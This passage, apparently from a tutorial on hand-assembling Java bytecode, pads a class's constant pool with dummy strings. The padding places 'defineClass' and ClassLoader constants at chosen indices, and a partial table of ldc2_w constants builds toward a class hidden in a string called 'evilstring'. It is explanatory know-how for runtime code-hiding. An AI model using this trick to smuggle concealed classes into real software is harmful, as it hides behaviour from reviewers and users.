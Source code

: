 However, unlike the first two strings we added (`"Code"` and `"(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"`), we need the new constants to appear at index 257 or higher for reasons that will become clear later. Therefore, we need to first insert a bunch of dummy constants we aren't using in order to push `"defineClass"`, etc. up to index 257.

```
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"
        
        ldc_w "s_b"
        ldc_w "s_d"
        ldc_w "s_f"
        ldc_w "s_11"
        ldc_w "s_13"
        ...
        ldc_w "s_fb"
        ldc_w "s_fd"
        ldc_w "s_ff"

        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"
```

In order to make things easier to understand, we'll name the dummy strings `s_addr` where `addr` is the index where the corresponding `Utf8` constant will appear in hexadecimal. Therefore `s_b` appears at index 11 (`b` in hex), `s_ff` appears at index 255 (`ff` in hex), etc.

We need to add a total of 123 strings here in order to push `"defineClass"` up to index 257. Recall that each string literal results in two constant pool entries, one `Utf8` constant and one `String` constant that points to it. Therefore the `ldc_w "s_ff"` line will cause ASM to output a `Utf8` constant at index 255 and a `String` constant at index 256 pointing to it. Therefore, the next line `ldc_w "defineClass"` results in a `Utf8` constant for `"defineClass"` at index 257, just like we wanted. (It also results in a `String` constant at index 258, but we don't care about the `String`s, just the `Utf8` constants.)

With these placeholders added, we can fill in two additional placeholders: `[init_utf] = 0105` and `[init_desc_utf] = 0107`. The other three are constants we'll need later when we work on `evilstring` itself.

```
        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x--000700
        ldc2_w 0x00090000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L
        ldc2_w 0x00000003AAAAAA00L
        ldc2_w 0x00000003BBBBBB00L
        ldc2_w 0x00000003CCCCCC00L
        ldc2_w 0x00000006DDDDDDDDL
        ldc2_w 0x0000010105010700L
        ldc2_w 0x00090000001C0043L
        ldc2_w 0x00000000102A0000L
        ldc2_w 0x57B7----B1000000L
        ldc2_w 0x5700000000000000L
        ldc2_w 0x0000000366666600L
        ldc2_w 0x0000000377777700L
        ldc2_w 0x0000000388888800L
        ldc2_w 0x00000E2599999999L
```
